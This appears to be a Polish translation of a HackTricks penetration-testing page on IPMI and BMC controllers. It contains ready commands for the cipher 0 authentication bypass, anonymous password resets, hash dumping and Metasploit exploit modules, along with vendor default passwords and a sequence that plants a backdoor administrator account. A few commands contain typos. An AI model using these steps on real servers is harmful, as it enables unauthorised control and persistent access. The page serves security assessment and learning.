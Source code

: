 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Podstawowe informacje

### **Przegląd IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** oferuje ustandaryzowane podejście do zdalnego zarządzania i monitorowania systemów komputerowych, niezależnie od systemu operacyjnego czy stanu zasilania. Technologia ta pozwala administratorom systemów na zdalne zarządzanie systemami, nawet gdy są wyłączone lub nieodpowiadające, i jest szczególnie przydatna w przypadku:

- Konfiguracji przed uruchomieniem systemu operacyjnego
- Zarządzania zasilaniem
- Odzyskiwania po awariach systemu

IPMI jest w stanie monitorować temperatury, napięcia, prędkości wentylatorów i zasilacze, a także dostarczać informacje o inwentarzu, przeglądać logi sprzętowe i wysyłać powiadomienia za pomocą SNMP. Do jego działania niezbędne są źródło zasilania i połączenie LAN.

Od momentu wprowadzenia przez firmę Intel w 1998 roku, IPMI było wspierane przez wielu dostawców, co zwiększyło możliwości zdalnego zarządzania, szczególnie dzięki wsparciu wersji 2.0 dla komunikacji szeregowej przez LAN. Kluczowe komponenty to:

- **Baseboard Management Controller (BMC):** Główny mikro-kontroler do operacji IPMI.
- **Szyny i interfejsy komunikacyjne:** Do komunikacji wewnętrznej i zewnętrznej, w tym ICMB, IPMB oraz różne interfejsy do lokalnych i sieciowych połączeń.
- **Pamięć IPMI:** Do przechowywania logów i danych.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Domyślny port**: 623/UDP/TCP (Zwykle działa na UDP, ale może również działać na TCP)

## Enumeracja

### Odkrywanie
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Możesz **zidentyfikować** **wersję** za pomocą:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

W dziedzinie IPMI 2.0, istotna luka w zabezpieczeniach została odkryta przez Dana Farmera, ujawniając podatność poprzez **cipher type 0**. Ta podatność, szczegółowo udokumentowana w [badaniach Dana Farmera](http://fish2.com/ipmi/cipherzero.html), umożliwia nieautoryzowany dostęp z dowolnym hasłem, pod warunkiem, że celem jest ważny użytkownik. Ta słabość została znaleziona w różnych BMC od producentów takich jak HP, Dell i Supermicro, co sugeruje powszechny problem we wszystkich implementacjach IPMI 2.0.

### **IPMI Authentication Bypass via Cipher 0**

Aby wykryć tę lukę, można wykorzystać następujący skaner pomocniczy Metasploit:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Wykorzystanie tej luki jest możliwe za pomocą `ipmitool`, jak pokazano poniżej, co pozwala na wyświetlenie i modyfikację haseł użytkowników:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

Ta luka umożliwia pobranie zasolonych haszy haseł (MD5 i SHA1) dla dowolnej istniejącej nazwy użytkownika. Aby przetestować tę lukę, Metasploit oferuje moduł:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonymous Authentication**

Domyślna konfiguracja w wielu BMC pozwala na "anonimowy" dostęp, charakteryzujący się pustymi ciągami nazwy użytkownika i hasła. Ta konfiguracja może być wykorzystana do resetowania haseł kont użytkowników o nazwach za pomocą `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Hasła w czystym tekście**

Krytyczny wybór projektowy w IPMI 2.0 wymaga przechowywania haseł w czystym tekście w BMC w celach uwierzytelniania. Przechowywanie tych haseł przez Supermicro w lokalizacjach takich jak `/nv/PSBlock` lub `/nv/PSStore` budzi poważne obawy dotyczące bezpieczeństwa:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

Włączenie przez Supermicro nasłuchiwacza UPnP SSDP w swoim oprogramowaniu IPMI, szczególnie na porcie UDP 1900, wprowadza poważne ryzyko bezpieczeństwa. Luki w Intel SDK dla urządzeń UPnP w wersji 1.3.1, szczegółowo opisane w [ujawnieniu Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), umożliwiają dostęp root do BMC:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP losowo generuje domyślne hasło** dla swojego produktu **Integrated Lights Out (iLO)** podczas produkcji. Ta praktyka kontrastuje z innymi producentami, którzy zazwyczaj używają **statycznych domyślnych poświadczeń**. Podsumowanie domyślnych nazw użytkowników i haseł dla różnych produktów przedstawiono poniżej:

- **HP Integrated Lights Out (iLO)** używa **fabrycznie losowego 8-znakowego ciągu** jako domyślnego hasła, co pokazuje wyższy poziom bezpieczeństwa.
- Produkty takie jak **iDRAC firmy Dell, IMM firmy IBM** i **Zintegrowany Kontroler Zdalnego Zarządzania Fujitsu** używają łatwych do odgadnięcia haseł, takich jak "calvin", "PASSW0RD" (z zerem) i "admin" odpowiednio.
- Podobnie, **Supermicro IPMI (2.0), Oracle/Sun ILOM** i **ASUS iKVM BMC** również używają prostych domyślnych poświadczeń, z "ADMIN", "changeme" i "admin" jako ich hasłami.


## Accessing the Host via BMC

Dostęp administracyjny do Kontrolera Zarządzania Płytą Główną (BMC) otwiera różne ścieżki do uzyskania dostępu do systemu operacyjnego hosta. Proste podejście polega na wykorzystaniu funkcji KVM (Keyboard, Video, Mouse) BMC. Można to zrobić, rebootując hosta do powłoki root za pomocą GRUB (używając `init=/bin/sh`) lub bootując z wirtualnego CD-ROM ustawionego jako dysk ratunkowy. Takie metody pozwalają na bezpośrednią manipulację dyskiem hosta, w tym wstawianie backdoorów, ekstrakcję danych lub wszelkie niezbędne działania w celu oceny bezpieczeństwa. Jednak wymaga to rebootowania hosta, co jest istotną wadą. Bez rebootowania, dostęp do działającego hosta jest bardziej skomplikowany i różni się w zależności od konfiguracji hosta. Jeśli fizyczna lub szeregowa konsola hosta pozostaje zalogowana, można ją łatwo przejąć za pomocą funkcji KVM lub serial-over-LAN (sol) BMC za pomocą `ipmitool`. Badanie wykorzystania wspólnych zasobów sprzętowych, takich jak magistrala i2c i chip Super I/O, to obszar, który wymaga dalszego zbadania.

## Introducing Backdoors into BMC from the Host

Po skompromitowaniu hosta wyposażonego w BMC, **lokalny interfejs BMC może być wykorzystany do wstawienia konta użytkownika backdoor**, tworząc trwałą obecność na serwerze. Atak ten wymaga obecności **`ipmitool`** na skompromitowanym hoście oraz aktywacji wsparcia dla sterownika BMC. Poniższe polecenia ilustrują, jak nowe konto użytkownika może być wstrzyknięte do BMC za pomocą lokalnego interfejsu hosta, co omija potrzebę uwierzytelnienia. Technika ta ma zastosowanie w szerokim zakresie systemów operacyjnych, w tym Linux, Windows, BSD, a nawet DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Zgłębiaj swoją wiedzę w zakresie **Mobile Security** z 8kSec Academy. Opanuj bezpieczeństwo iOS i Androida dzięki naszym kursom w trybie samodzielnym i uzyskaj certyfikat:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
